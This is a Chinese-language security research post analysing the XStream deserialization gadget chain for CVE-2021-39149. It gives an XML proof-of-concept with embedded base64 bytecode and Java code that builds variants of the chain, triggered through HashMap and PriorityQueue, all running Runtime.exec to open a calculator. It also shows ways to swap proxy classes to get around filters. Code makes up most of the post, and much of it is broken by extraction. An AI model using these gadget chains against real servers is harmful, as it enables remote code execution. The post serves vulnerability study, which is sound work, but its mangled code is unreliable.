



0x01 简介 Xstream的利用链都是很值得学习的，hessian的利用链基本都是照搬Xstream，在漏洞挖掘中碰到了xstream，发现了一个非常有意思的利用链，所以就学习下，随便进行扩展。
0x02 分析 CVE-2021-39149
xstream中非常值得学习的一条gadget。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <map>"com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl" >"linked-hash-map" />"sun.tracing.NullProvider" >true </active>"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" serialization="custom" >default >byte -array>yv66vgAAADQAHAEABGNhbGMHAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQAKU291cmNlRmlsZQEACWNhbGMuamF2YQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHAAcBAAg8Y2xpbml0PgEAAygpVgEABENvZGUBABFqYXZhL2xhbmcvUnVudGltZQcADAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMAA4ADwoADQAQAQASb3BlbiAtYSBjYWxjdWxhdG9yCAASAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAFAAVCgANABYBAA1TdGFja01hcFRhYmxlAQAGPGluaXQ+DAAZAAoKAAgAGgAhAAIACAAAAAAAAgAIAAkACgABAAsAAAAkAAMAAgAAAA+nAAMBTLgAERITtgAXV7EAAAABABgAAAADAAEDAAEAGQAKAAEACwAAABEAAQABAAAABSq3ABuxAAAAAAABAAUAAAACAAY=</byte -array>1 </__transletIndex>0 </__indentNumber>default >boolean >false </boolean >"../dynamic-proxy" />
从poc就可以分析主要通过动态代理了map类，使用的handler为CompositeInvocationHandlerImpl。
com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 public class CompositeInvocationHandlerImpl implements CompositeInvocationHandler private Map classToInvocationHandler = new LinkedHashMap () ;private InvocationHandler defaultHandler = null ;public Object invoke ( Object proxy, Method method, Object[] args ) throws ThrowableClass cls = method.getDeclaringClass() ;InvocationHandler handler = if (handler == null ) {if (defaultHandler != null )else {ORBUtilSystemException wrapper = ORBUtilSystemException.get(throw wrapper.noInvocationHandler( "\"" + method.toString() +"\"" ) ;return handler.invoke( proxy, method, args ) ;
可以看到他有两个属性defaultHandler，classToInvocationHandler。他的invoke里面，先从classToInvocationHandler里面获取handler，获取不到就用defaultHandler，最后有调用了defaultHandler的invoker。
这里不就是标准的二次调用动态代理么，有点意思。
sun.tracing.NullProvider
1 2 3 4 5 6 7 8 9 10 class NullProvider extends ProviderSkeleton {extends Provider > type) {super (type);protected ProbeSkeleton createProbe (Method m) {return new NullProbe (m.getParameterTypes());
他没有invoker，进而调用父类sun.tracing.ProviderSkeleton的invoker方法,ProviderSkeleton他是一个抽象类。

它有四个子类，这里四个子类都没有实现invoker方法，所以这里四个只要没有active,providerType,probe 和父类一样的属性就可以拿来构造，因为本质是调用父类的invoker。查看后，其中sun.tracing.PrintStreamProvider，sun.tracing.NullProvider，sun.tracing.MultiplexProvider 可以拿来构造。
sun.tracing.ProviderSkeleton
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 public abstract class ProviderSkeleton implements InvocationHandler , Provider {protected boolean active; protected Class<? extends Provider > providerType; protected HashMap<Method, ProbeSkeleton> probes; public Object invoke (Object proxy, Method method, Object[] args) {Class declaringClass = method.getDeclaringClass();if (declaringClass != providerType) {try {if (declaringClass == Provider.class ||return method.invoke(this , args);else {throw new SecurityException ();catch (IllegalAccessException e) {assert false ;catch (InvocationTargetException e) {assert false ;else {return null ;
前面判断一下代理类的是否属于（providerType）interface，不等于在判断，没什么用。我们主要就是要看另一个处理triggerProbe
sun.tracing.ProviderSkeleton#triggerProbe
1 2 3 4 5 6 7 8 9 protected void triggerProbe (Method method, Object[] args) {if (active) {ProbeSkeleton p = probes.get(method);if (p != null ) {
从probes获取ProbeSkeleton对象，然后调用uncheckedTrigger方法。probes，active都是feid，我们可以直接构造。
sun.tracing.ProbeSkeleton#uncheckedTrigger
他是一个abstract，一共四个实现类
DTraceProbe可用，其余三个没有课利用的地方，
sun.tracing.dtrace.DTraceProbe#uncheckedTrigger
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 class DTraceProbe extends ProbeSkeleton {private Object proxy;private Method declared_method;private Method implementing_method;public void uncheckedTrigger (Object[] args) {try {catch (IllegalAccessException e) {assert false ;catch (InvocationTargetException e) {assert false ;
可以看到这里implementing_method,proxy都是fied，我们可控，args是触发代理的方法的参数值，也可控，这样就完成反射调用。
通过以上分析，我们可以得出结论，classToInvocationHandler 是一个二次调用动态代理，也就是我们跳过它，直接设置代理类为sun.tracing.ProviderSkeleton 抽象类下面的四个实现类之一就行了，然后对feid修改，使其走到triggerProbe ，在触发DTraceProbe#uncheckedTrigger 完成调用。致于CompositeInvocationHandlerImpl ，完全可以留着以后二次进行绕过麻。同理CompositeInvocationHandlerImpl , 他也有一个实现类CustomCompositeInvocationHandlerImpl ，没有实现invoker，必要时也可用CustomCompositeInvocationHandlerImpl 来触发二次次动态代理。

他们继承ser接口，说不定在某些时候可以有在jdk gadget用上。
0x03 构造利用链 无参数（map触发） 本质就是动态代理触发，入口第一时间就能效果到map类，map在反序列化时会进行hash计算触发hashcode，
所以非常简单就能构造出来。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 ClassPool pool = ClassPool.getDefault();CtClass ctClass = pool.makeClass("calc" );"java.lang.Runtime.getRuntime().exec(\"open -a calculator\");" );byte [] bytecode = ctClass.toBytecode();TemplatesImpl teml = utils.getTeml(bytecode);Object dTraceProbe = instaniateUnsafe().allocateInstance(Class.forName("sun.tracing.dtrace.DTraceProbe" ));Method method_getOutputProperties = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).getDeclaredMethod("getOutputProperties" );"proxy" , dTraceProbe, teml);"implementing_method" , dTraceProbe, method_getOutputProperties);HashMap map = new HashMap ();Method method_hashcode = Class.forName("java.lang.Object" ).getDeclaredMethod("hashCode" );InvocationHandler nullProvider = (InvocationHandler) instaniateUnsafe().allocateInstance(Class.forName("sun.tracing.NullProvider" ));"active" , nullProvider, true );"providerType" , nullProvider, Class.forName("java.lang.Object" ));"probes" , nullProvider, map);Object proxy = Proxy.newProxyInstance(new HashMap ().getClass().getInterfaces(),HashMap s = new HashMap ();"size" , 1 );try {"java.util.HashMap$Node" );catch (ClassNotFoundException e) {"java.util.HashMap$Entry" );Constructor nodeCons = nodeC.getDeclaredConstructor(int .class, Object.class, Object.class, nodeC);true );Object tbl = Array.newInstance(nodeC, 1 );0 , nodeCons.newInstance(0 , proxy, proxy, null ));"table" , tbl);
这样我们就行调用任意类的无参数方法类。
一个参数（PriorityQueue触发） 那要是我们想调用一个有参数方法了，满足的入口类，很容易就想到了优先队列的queue的触发compareTo，接口java.lang.Comparable
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 Object dTraceProbe = utils.createWithoutConstructor("sun.tracing.dtrace.DTraceProbe" );Method exec = Runtime.class.getMethod("exec" , String.class);"proxy" , Runtime.getRuntime());"implementing_method" , exec);HashMap map = new HashMap ();Method method = Comparable.class.getMethod("compareTo" , Object.class);InvocationHandler handler = (InvocationHandler) utils.createWithoutConstructor("sun.tracing.NullProvider" );Object proxy = Proxy.newProxyInstance(new Class []{Comparable.class},"active" , true );"providerType" ,Class.forName(Comparable.class.getName()));"probes" , map);PriorityQueue queue = new PriorityQueue (1 );"size" , 2 );"queue" , new Object []{proxy,"open -a calculator" });
两个参数（PriorityQueue触发） 一个参数的方法我们不满足，我们想触发两个有参数的方法，还是优先队列的queue的触发compare，java.util.Comparator
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 Object dTraceProbe = utils.createWithoutConstructor("sun.tracing.dtrace.DTraceProbe" );Method exec = Runtime.class.getMethod("exec" , String.class, String[].class);"proxy" , Runtime.getRuntime());"implementing_method" , exec);HashMap map = new HashMap ();Method method = Comparator.class.getMethod("compare" , Object.class, Object.class);InvocationHandler handler = (InvocationHandler) utils.createWithoutConstructor("sun.tracing.NullProvider" );Object proxy = Proxy.newProxyInstance(new Class []{Comparator.class},"active" , true );"providerType" ,Class.forName(Comparator.class.getName()));"probes" , map);PriorityQueue queue = new PriorityQueue (new AttrCompare () );"size" , 2 );"queue" , new Object []{"open -a calculator" ,null });"comparator" , proxy);
然后就是各种实现类的替换，来进行绕过了， 虽然也不用， 思路就是这个思路哦
二次代理替换(没什么用,因为fied也会进行序列化，绕过不过resolver检查 ) CustomCompositeInvocationHandlerImpl 来替换二次,
这个类有个stub 属性，不好赋值，直接暴力替换字符即可。
或者使用javasist删除fied,和对应的方法。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 try {ClassPool pool1 = ClassPool.getDefault();CtClass CustomCompositeInvocationHandlerImpl = pool1.get("com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl$CustomCompositeInvocationHandlerImpl" );CtField stub = CustomCompositeInvocationHandlerImpl.getDeclaredField("stub" );for (CtMethod declaredMethod : CustomCompositeInvocationHandlerImpl.getDeclaredMethods()) {if (declaredMethod.getName().equals("setProxy" )||declaredMethod.getName().equals("getProxy" )) {for (CtMethod method : CustomCompositeInvocationHandlerImpl.getMethods()) {if (method.getName().equals("CustomCompositeInvocationHandlerImpl" )||method.getName().equals("writeReplace" )) {catch (Exception e) {ClassPool pool = ClassPool.getDefault();CtClass ctClass = pool.makeClass("calc" );"java.lang.Runtime.getRuntime().exec(\"open -a calculator\");" );byte [] bytecode = ctClass.toBytecode();TemplatesImpl teml = utils.getTeml(bytecode);Object dTraceProbe = instaniateUnsafe().allocateInstance(Class.forName("sun.tracing.dtrace.DTraceProbe" ));Method method_getOutputProperties = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).getDeclaredMethod("getOutputProperties" );"proxy" , dTraceProbe, teml);"implementing_method" , dTraceProbe, method_getOutputProperties);HashMap map = new HashMap ();Method method_hashcode = Class.forName("java.lang.Object" ).getDeclaredMethod("hashCode" );Object nullProvider = instaniateUnsafe().allocateInstance(Class.forName("sun.tracing.NullProvider" ));"active" , nullProvider, true );"providerType" , nullProvider, Class.forName("java.lang.Object" ));"probes" , nullProvider, map);InvocationHandler handler = (InvocationHandler) instaniateUnsafe().allocateInstance(Class.forName("com.sun.corba.se.impl.presentation.rmi.InvocationHandlerFactoryImpl$CustomCompositeInvocationHandlerImpl" ));Object proxy = Proxy.newProxyInstance(new HashMap ().getClass().getInterfaces(),"defaultHandler" , nullProvider);"classToInvocationHandler" , new LinkedHashMap ());HashMap s = new HashMap ();"size" , 1 );try {"java.util.HashMap$Node" );catch (ClassNotFoundException e) {"java.util.HashMap$Entry" );Constructor nodeCons = nodeC.getDeclaredConstructor(int .class, Object.class, Object.class, nodeC);true );Object tbl = Array.newInstance(nodeC, 1 );0 , nodeCons.newInstance(0 , proxy, proxy, null ));"table" , tbl);
0x04 总结 **com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl **以及子类 一个二次调用动态代理的类，继承Serializable。
说不定能用上。
任意类无参数到两个参数 利用链的构造。
Reference https://xz.aliyun.com/t/10360